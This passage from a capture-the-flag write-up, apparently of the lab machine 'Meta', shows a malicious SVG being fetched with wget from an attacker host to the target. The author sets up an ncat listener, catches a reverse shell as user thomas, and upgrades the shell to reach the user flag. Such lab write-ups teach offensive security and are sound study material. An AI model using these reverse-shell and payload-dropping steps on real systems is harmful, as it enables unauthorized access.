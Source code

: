 All we have to do now is to set up a ncat listener and to drop the file in the `/var/www/dev01.artcorp.htb/convert_images` on the target machine.

```
nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:757
```

```
www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ wget 10.10.14.73/poc.svg -O poc.svg
--2022-01-22 17:18:46--  http://10.10.14.73/poc.svg
Connecting to 10.10.14.73:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 475 [image/svg+xml]
Saving to: ‘poc.svg’

poc.svg                                                     100%[==========================================================================================================================================>]     475  --.-KB/s    in 0s

2022-01-22 17:18:46 (55.3 MB/s) - ‘poc.svg’ saved [475/475]

www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ ls -la
total 12
drwxrwxr-x 2 root     www-data 4096 Jan 22 17:18 .
drwxr-xr-x 4 root     root     4096 Oct 18 14:27 ..
-rw-r--r-- 1 www-data www-data  475 Jan 22 15:08 poc.svg
```

After some time we get a connection back as thomas and are able to read the user flag.

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.166.252.
Ncat: Connection from 10.129.166.252:43978.
bash: cannot set terminal process group (1533): Inappropriate ioctl for device
bash: no job control in this shell
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ges$ python3 -c 'import pty;pty.spawn("/bin/bash")'
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ export TERM=xterm
export TERM=xterm
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ ^Z
[1]  + 45412 suspended  nc -lnvp 7575
$ stty raw -echo;fg
[1]  + 45412 continued  nc -lnvp 7575
                                                       ^C
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ stty rows 57 cols 239
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ wc -c ~/user.txt
33 /home/thomas/user.txt
```
